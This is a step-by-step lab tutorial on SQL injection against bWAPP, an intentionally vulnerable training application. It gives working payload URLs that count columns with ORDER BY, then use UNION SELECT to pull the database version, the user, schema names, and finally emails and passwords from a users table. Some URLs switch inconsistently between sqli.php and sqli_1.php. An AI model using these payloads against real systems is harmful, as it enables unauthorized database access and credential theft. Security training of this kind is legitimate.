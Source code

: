 # `03` Injection - SQL injection

1. Select the vulnerability **SQL Injection (GET/Search)** and click "Hack".
2. Explore the vulnerable form. You will see a form with a field to enter a search query (typically called `title` or `id`). Enter a simple term, such as `test`, and click Search. The URL generated from that search will look like:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test&action=search
    ```

    The result of the search will be "not found," which means we're good because "test" doesn't exist in the table, but no error occurred.

    ![image 1](../../.learn/assets/not-found.png)

## Discover the Number of Columns

1. To identify how many columns the original query returns, perform a test using the following injection. Let's try the query with `ORDER BY`:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' ORDER BY 1-- &action=search
    ```

    If you don't see any errors and only a "not found" message, it means the query has at least one column.

2. Increase the number in the `ORDER BY` clause to keep checking until you get a syntax error. For example:

    ```bash
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 2-- &action=search
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 3-- &action=search
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 4-- &action=search
    ```

    When you reach the number where you get an error, it means the query has one column less than the last number you tested successfully.

    ![image 2](../../.learn/assets/columsql-error.png)

## Injection with UNION SELECT

Once you've determined the number of columns, use a `UNION SELECT` injection to extract information. For example, if there are 7 columns, you can try:

    ```bash
    http://<your_ip>/bWAPP/sqli.php?id=1' UNION SELECT 1, database(), version(), 4, 5, 6, 7-- &action=search
    ```

> This will show you the database name and the SQL server version.

![image 3](../../.learn/assets/get-version-database.png)

## **Exploring New Functions**

Now that you have obtained the database name and the server version, you can explore more functions to retrieve additional information.

- **Retrieving the current username:**

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, 2, user(), 4, 5, 6, 7-- &action=search
    ```

- **Retrieving table names:**

    Perform a UNION SELECT query to access the `information_schema.tables` table, which contains the table names in the current database. If the total number of columns is 7, use the following URL:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, table_name, 3, 4, 5, 6, 7 FROM information_schema.tables WHERE table_schema=database()-- &action=search
    ```

    **In this query:**

    - `table_name` is the column that holds the table names.
    - `table_schema=database()` limits the query to the current database.

    > Always make sure that the columns in the UNION SELECT query match the number of columns in the original query. The output should show the names of the available tables in the database.

    ![image 4](../../.learn/assets/tables-name-sql.png)

- **Retrieving column names:**

    Once you have the table names, retrieve the columns from a specific table. For example, if one of the tables is named `users`, use:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, column_name, 3, 4, 5, 6, 7 FROM information_schema.columns WHERE table_name='users'-- &action=search
    ```

    This will return the column names from the `users` table.
    
    ![image 5](../../.learn/assets/colums-name-sql.png)

- **Retrieving sensitive data:**

    Finally, extract sensitive information. If you find a column named `password`, you can retrieve the passwords (or their hashes) with the following query:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, email, password, 4, 5, 6, 7 FROM users-- &action=search
    ```

    This will display the usernames and their passwords.
    
    ![image 6](../../.learn/assets/sensitive-infosql.png)


If you achieved the expected results, congratulations! Move on to the next lesson. `-->`